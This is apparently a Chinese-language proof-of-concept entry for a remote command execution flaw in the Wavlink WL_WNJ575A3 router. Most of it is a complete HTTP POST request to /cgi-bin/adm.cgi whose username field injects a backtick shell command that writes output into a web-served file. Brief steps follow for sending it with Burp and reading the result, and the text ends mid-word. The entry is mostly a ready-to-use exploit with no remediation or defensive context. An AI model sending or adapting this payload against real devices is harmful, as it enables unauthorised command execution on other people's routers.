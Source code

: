 ## 睿因 Wavlink WL_WNJ575A3 远程命令执行
影响版本
Wavlink WL_WNJ575A3 v.R75A3_V1410_220513
漏洞代码
POC
```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 91
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/100.0.4896.60 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;
q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.10.1/set_time.shtml?r=29725
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=1243623152
Connection: close
page=sysAdm&SYSPASS=password&username='`ls>/etc_ro/lighttpd/www/data.html`'&newpass= 12345678


```
1.Burp 发包执行命令
2.访问“data.html”查看命令执行结

